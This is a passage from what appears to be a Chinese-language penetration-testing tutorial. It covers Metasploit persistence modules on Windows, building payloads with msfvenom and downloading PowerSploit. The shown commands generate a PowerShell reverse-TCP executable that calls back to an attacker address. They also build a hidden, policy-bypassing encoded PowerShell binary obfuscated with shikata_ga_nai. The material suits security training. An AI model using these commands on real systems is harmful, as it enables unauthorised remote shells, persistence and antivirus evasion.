 持久性是每次成功的黑客攻击中的主要需求。Metasploit Framework 带有两个主要的持久性脚本：

+   **S4U 持久性（计划持久性）**：要使用它，请键入`use exploit/windows/local/s4u_persistence`

![](img/00225.jpeg)

+   **卷影副本服务持久性（VSS 持久性）**：要使用它，键入`use exploit/windows/local/vss_persistence`

![](img/00226.jpeg)

这里有一些持久性的额外选项：

+   **Metasploit 服务**（或**Metsvc**）

+   **VNC 注入**

您可以使用 Windows 二进制文件。要定位这些二进制文件，转到`/usr/share/windows-binaries path`：

![](img/00227.jpeg)

# 武器化的 PowerShell 与 Metasploit

在之前的章节中，我们见证了 PowerShell 及其潜力的力量。这只是开始；现在，我们准备将其力量发挥到下一个级别。结合 Metasploit 和 PowerShell 的灵活性是执行更多定制攻击和安全测试的绝佳机会。

# 交互式 PowerShell

PowerShell 攻击已经集成到 Metasploit 中。您可以使用`search`命令进行检查：

```
msf> search powershell
```

![](img/00228.jpeg)

在第四章，*活动目录利用*中，您学习了如何使用 PowerShell 执行一些任务。现在是时候学习如何使用 PowerShell 与 Metasploit。例如，您可以使用`msfvenom`实用程序将 PowerShell 脚本转换为可执行文件进行演示：

```
>msfvenom    -p    windows/powershell_reverse_tcp LHOST=192.168.1.39    LPORT=4444    -f    exe    >    evilPS.exe >msfvenom  -p     windows/exec     CMD=“powershell     -ep     bypass     -W     Hidden     -enc   [Powershell script Here]”    -f    exe    -e    x86/shikata_ga_nai    -o   /root/home/ghost/Desktop/power.exe
```

# PowerSploit

PowerSploit 是信息安全专业人员，特别是渗透测试人员使用的一组令人惊叹的 PowerShell 脚本。要下载 PowerSploit，您需要从其官方 GitHub 存储库[`github.com/PowerShellMafia/PowerSploit`](https://github.com/PowerShellMafia/PowerSploit)获取：

```
# git clone https://github.com/PowerShellMafia/PowerSploit 
```

克隆项目后，使用`ls`命令列出文件：

